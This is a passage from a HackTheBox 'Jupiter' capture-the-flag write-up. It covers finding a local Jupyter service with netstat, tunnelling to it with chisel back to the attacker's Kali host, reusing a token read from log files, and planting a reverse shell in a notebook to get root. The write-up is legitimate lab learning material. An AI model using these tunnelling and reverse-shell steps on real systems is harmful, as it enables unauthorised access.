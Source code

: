 Given that the process employed Jupyter notebook, which typically runs on port 8888, I verified its status using the netstat command. My examination confirmed that port 8888 was indeed active.

```bash
netstat -tunlp
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/fc452ca7-68cb-42af-a150-a4953690dca0)

### Port forwarding:

To access the service on port 8888, which is not directly accessible from outside, I employed port forwarding. This process involved using chisel to redirect all the traffic from the Jupiter box to my Kali host.

```bash
./chisel_kill3r server --reverse -socks5 -p 8001 #on my kali host

./chisel client 10.10.14.118:8001 R:socks #on the target host
```

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/ec52030d-c5ad-40a0-a612-e80d277c9de8)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/d6e930a2-805c-48f5-a34f-b6780acc7367)

Having established port forwarding and routed the traffic through a SOCKS5 proxy on port 1080, I accessed the webpage on port 8888, revealing the need for either a token or password for authentication.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/43e98f92-05be-477f-9da2-c05c073e754e)

A review of the pspy results had indicated the script's operation from the "/opt/solar-flares/" directory. Upon examining this directory, I discovered a "log" folder containing log files. One of these logs revealed a token.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e948114b-9671-46e8-87ae-017e51f99bd6)

Using this token, I successfully accessed the Jupyter notebook:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/50a8539d-ce9b-477a-9b00-4edfab67a38a)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Root flag:

Within the Jupyter application, after accessing the "flares.ipynb" notebook, I encountered several Python/ML scripts.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4de58f13-7946-42e9-add1-87b271cdde77)

I added another Python script to create a reverse shell connection to my Kali host within this notebook and executed it.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/fa8fe140-9655-4240-9579-e687cff26890)
